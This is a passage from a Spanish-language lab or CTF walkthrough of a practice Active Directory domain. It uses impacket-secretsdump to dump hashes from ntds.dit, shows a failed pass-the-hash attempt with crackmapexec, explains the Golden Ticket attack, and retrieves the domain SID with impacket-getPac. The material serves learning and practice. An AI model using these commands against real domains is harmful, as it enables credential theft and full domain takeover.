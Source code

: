 Y con la herramienta **impacket-secretsdump**, volvemos a dumpear todos los hashes del **archivo ntds.dit y system hive**:
```bash
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x9a6eda47674d4ed68313ddc1c8f9ca5b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 5e8a0e9e33e9b3e49f0767e39f3e7d29
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b43......
.....
.....
.....
```

Comprobemos que funciona el **Hash del Administrador** con **crackmapexec**:
```bash
crackmapexec smb 192.168.56.10 -u 'Administrator' -H 'Hash_NTLM o Hash NT'
SMB         192.168.56.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:neptune.thl) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    DC01             [-] neptune.thl\Administrator:*********** STATUS_LOGON_FAILURE
```
Parece que el Hash no está funcionando, posiblemente hay alguna regla que esté impidiendo que utilicemos el **Hash del Administrador**, lo que nos impedirá loguearnos en la máquina víctima aplicando **Pass-The-Hash**.

Podemos aplicar el **Golden Ticket Attack**, para suplantar al **Administrador** y evadir cualquier restricción que nos esté bloqueando.

<br>

<h2 id="GoldenTicket">Creando Golden Ticket para Autenticarnos Vía Kerberos como Administrador</h2>

¿Qué es el **Golden Ticket Attack**?

| **Golden Ticket Attack** |
|:-----------:|
| *El Golden Ticket Attack es una técnica avanzada de post-explotación que permite a un atacante crear un ticket Kerberos TGT (Ticket Granting Ticket) falso y utilizarlo para obtener acceso ilimitado a recursos dentro de un dominio Active Directory.* |

<br>

Para crear el **Golden Ticket**, necesitamos lo siguiente:
* La herramienta **impacket-ticketer**.
* El **SID** del dominio.
* El **Hash NT** de quien vamos a suplantar.

El **SID** del dominio, lo podemos obtener con la herramienta **impacket-getPac**:
```bash
impacket-getPac -targetUser 'thomas.brown' neptune.thl/'thomas.brown:newP@ssword2022'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
...
...
ResourceGroupIds:                NULL 
Domain SID: S-1-5-21-4221554869-2967981397-3876651103
```
Y como ya tenemos el **Hash NT** del administrador, ya solamente tenemos que agregar lo demás.
